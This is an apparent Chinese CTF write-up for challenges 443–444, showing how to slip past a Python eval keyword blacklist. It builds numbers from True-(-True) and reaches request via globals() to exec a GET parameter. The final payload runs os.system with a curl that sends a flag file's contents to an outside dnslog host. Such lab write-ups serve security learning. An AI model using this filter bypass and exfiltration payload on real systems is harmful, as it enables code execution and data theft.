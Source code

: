 

## 443~444

> 提交参数改为post，过滤了数字和`request`
>
> 444给出源码
> 过滤了：`os|open|system|read|eval|builtins|curl|_|getattr|{|\'|"|\+|[0-9]|request|len`

学yu师傅的做法：

> `globals()`：以字典类型返回当前位置的全部全局变量
>
> `keys()`：字典 keys() 方法返回一个视图对象

```
code=str(globals())
```

![](https://i.loli.net/2021/11/09/J7tLVuHSkCmoAe4.png)

利用`True-(-True)`来构造数字，搭配`list()`转换为列表从而取到`request`

```
code=str(list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)])
```

![](https://i.loli.net/2021/11/09/2q1pzOWgnwtLJc7.png)



然后就可以以`globals()[request]`的形式调用了：

```
code=str(globals()[list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)]])
```

大概像这样：

![](https://i.loli.net/2021/11/09/WiQuR68dLK45DTH.png)



payload：

```
?True=import os;os.system('curl `cat /f*`.xxx.dnslog.cn')

post：
code=str(exec(globals()[list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)]].args.get(str(True))))
```



## 445-447
